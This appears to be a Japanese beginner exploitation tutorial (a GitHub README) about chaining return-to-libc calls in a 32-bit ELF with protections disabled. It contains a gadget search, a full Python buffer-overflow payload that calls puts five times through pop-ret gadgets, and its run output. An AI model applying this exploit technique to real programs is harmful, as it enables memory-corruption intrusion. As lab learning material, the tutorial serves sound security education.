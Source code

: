 # PWNオーバーフロー入門: 関数の戻り番地を書き換えてlibc関数を3回以上実行(SSP、ASLR、PIE無効で32bitELF)

## はじめに

return-to-libcは2回まではスタックに重ねるだけでいけるのだけど3回以上はうまくスタックを掃除しながらじゃないと呼び出せない。
というわけで今回は3回以上実行する方法。
単純にputsを5回ぐらい呼び出すexploit codeを作ってみる。

## 準備

ほぼ前回の[saru2017/pwn005: PWNオーバーフロー入門: 関数の戻り番地を書き換えてlibc関数を2回実行(SSP、ASLR、PIE無効で32bitELF)](https://github.com/saru2017/pwn005)を使って少しだけ加えます。

## 新たに調べなければならないアドレス

libcの中にpopとretが連続している相対アドレスを探してみる。

```bash-statement
saru@lucifen:~/pwn006$ objdump -d /lib32/libc.so.6 | grep -B1 ret | grep -A1 pop | head
   1869b:       5f                      pop    %edi
   1869c:       c3                      ret
--
   18706:       5e                      pop    %esi
   18707:       c3                      ret
--
   187ec:       5d                      pop    %ebp
   187ed:       c3                      ret
--
   18be5:       5b                      pop    %ebx
saru@lucifen:~/pwn006$
```

たくさん出てくるのだがたぶんどれでも良い。
今回は`0x0001869b`を使う。

## exploitコード

```python
import struct
import sys

base_libc = 0xf7ded000
offset_system = 0x0003cd10
offset_puts = 0x00067360
offset_shell = 0x0017b8cf
offset_popret = 0x0001869b
bufsize = 140

def main():
    buf = b'A' * bufsize
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_popret)
    buf += struct.pack('<I', base_libc + offset_shell)
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_popret)
    buf += struct.pack('<I', base_libc + offset_shell)
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_popret)
    buf += struct.pack('<I', base_libc + offset_shell)
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_popret)
    buf += struct.pack('<I', base_libc + offset_shell)
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += b'AAAA'
    buf += struct.pack('<I', base_libc + offset_shell)

    sys.stdout.buffer.write(buf)



if __name__ == "__main__":
    main()
```

## 実行結果

見事5回「`/bin/sh`」を出力することに成功。

```bash-statement
saru@lucifen:~/pwn006$ python exploit06_stdout.py | ./overflow06
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`C▒▒▒V▒▒ψ▒▒`C▒▒▒V▒▒ψ▒▒`C▒▒▒V▒▒ψ▒▒`C▒▒▒V▒▒ψ▒▒`C▒▒▒V▒▒ψ▒▒`C▒▒AAAAψ▒▒
/bin/sh
/bin/sh
/bin/sh
/bin/sh
/bin/sh
/bin/sh
Segmentation fault (core dumped)
saru@lucifen:~/pwn006$
```


## 参考

- [saru2017/pwn005: PWNオーバーフロー入門: 関数の戻り番地を書き換えてlibc関数を2回実行(SSP、ASLR、PIE無効で32bitELF)](https://github.com/saru2017/pwn005)
- [Return-to-libcで連続して関数を呼んでみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/03/24/020347)




